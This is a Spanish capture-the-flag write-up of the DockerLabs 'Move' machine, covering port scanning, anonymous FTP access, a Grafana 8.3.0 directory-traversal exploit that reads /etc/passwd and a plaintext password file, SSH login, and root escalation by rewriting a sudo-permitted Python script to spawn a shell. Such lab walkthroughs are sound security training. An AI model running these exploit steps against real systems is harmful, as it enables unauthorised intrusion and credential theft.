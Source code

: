 # Máquina Move

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,22,80,3000 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    1 0        0              26 Mar 29 09:28 mantenimiento [NSE: writeable]
22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   256 770b3436870d386458c06f4ecd7a3a99 (ECDSA)
|_  256 1ec6b291563250a50345f3f732ca7bd6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Debian)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
```

El usuario **anonymous** está disponible en el servicio **ftp**, le echamos un vistazo.

```shell
ftp 172.17.0.2
-> anonymous
```

Vemos un directorio y dentro un archivo, asi que lo descargamos:

```shell
cd mantenimiento
get database.kdbx
```

Lo tratamos de abrir con **keepass2** pero tiene contraseña, por lo que trataremos de crackearla con **john**:

```shell
keepass2john database.kdbx
---------------------------------
! database.kdbx : File version '40000' is currently not supported!
```

Nos da error por la versión del archivo así que de momento pasaremos a inspeccionar otras vías.

Inspeccionamos la web del puerto 80, y encontramos la página por defecto de Apache.
Aplicamos **Fuzzing** sobre ella:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x txt,php,html
```

Accedemos al archivo **maintenance.html** que hemos encontrado:

![Pasted image 20240428003510](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f8a13e47-b465-4d7d-b4fd-f7012ba93901)

Le echamos un vistazo a la web que corre por el puerto 3000:

![Pasted image 20240428003758](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1408ccac-184b-4aa6-bd31-6d885360a9cd)

```shell
whatweb http://172.17.0.2:3000/
------------------------------------------------------------------------------
http://172.17.0.2:3000/login [200 OK] Country[RESERVED][ZZ], Grafana[8.3.0], HTML5, IP[172.17.0.2], Script, Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]
```

--------------
## Explotación

Vemos que está utilizando **Grafana[8.3.0]**, con su versión. Podemos buscar algún exploit que podamos utilizar:

```shell
searchsploit Grafana
-----------------------------------------------
Grafana 7.0.1 - Denial of Service (PoC)
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                               multiple/webapps/50581.py
```

Vemos que hay uno justo para la versión correspondiente. Nos lo descargamos:

```shell
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.2:3000
-> /etc/passwd
----------------------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```

Vemos un información interesante como un usuario **freddy**.
Leemos también el archivo que ponía en la web:

```shell
python3 50581.py -H http://172.17.0.2:3000
-> /tmp/pass.txt
-----------------------
t9sH76gpQ82UFeZ3GXZS
```

Usamos el usuario freddy y la contraseña obtenida para acceder por **ssh** -> **freddy:t9sH76gpQ82UFeZ3GXZS**

```ssh
ssh freddy@172.17.0.2
```

Estamos dentro !

------------
## Escalada de privilegios

Ejecutamos **sudo -l**, para ver si podemos ejecutar algo como root.

```shell
sudo -l
-----------------------
User freddy may run the following commands on 19cbc2280d8b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Vemos que **/opt/maintenance.py** pertenece a freddy de forma que podemos cambiarlo y escribir en él.
El nuevo contenido del script **maintenance.py** será:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

Lo ejecutamos:

```shell
sudo /usr/bin/python3 /opt/maintenance.py
```

```shell
whoami
----------------
root
```

Hemos conseguido el nivel de privilegios máximos en la máquina !
